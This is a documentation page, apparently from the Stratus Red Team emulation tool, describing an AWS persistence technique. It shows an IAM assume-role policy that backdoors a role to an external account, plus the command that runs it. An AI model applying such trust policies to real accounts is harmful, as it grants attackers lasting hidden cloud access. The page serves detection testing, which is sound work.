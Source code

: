 ```yaml
---
title: Backdoor an IAM Role
---
```


# Backdoor an IAM Role 

Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an IAM role.

<span style="font-variant: small-caps;">Detonation</span>: 

- Update the assume role policy of the IAM role to backdoor it, making it accessible from an external, fictitious AWS account:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.backdoor-iam-role
```